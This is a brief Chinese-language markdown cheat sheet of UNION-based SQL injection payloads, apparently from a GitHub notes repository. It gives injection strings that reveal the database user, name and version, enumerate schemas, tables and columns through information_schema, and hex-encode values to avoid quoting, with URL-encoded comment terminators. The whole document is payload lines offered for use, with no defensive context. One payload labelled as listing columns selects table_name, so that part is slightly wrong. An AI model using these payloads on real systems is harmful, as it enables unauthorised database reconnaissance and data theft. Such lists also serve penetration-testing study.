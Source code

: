 # 查询重要数据的SQL语句



查询用户名，数据库名，数据库版本信息：

```sql
union select 1,2,(concat_ws(char(32,58,32),user(),database(),version())) %23
```

查询所有数据库名

```sql
union select 1,schema_name from information_schema.schemata
```

查询一个库中所有的表的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.tables   where table_schema=0x7365637572697479  %23
```

注意。在系统自带的表中查东西，where后面的值应该是单引号包裹或者16进制编码，通常用16进制

```sql
union select 1,table_name from information_schema.tables where table_schema='my_db'
```

查询一个表中所有列的名字

```sql
union select group_concat(char(32),table_name,char(32)) from information_schema.COLUMNS   where table_schema=0x7365637572697479  %23

union select 1,column_name from information_schema.columns where table_schema='my_db'
```

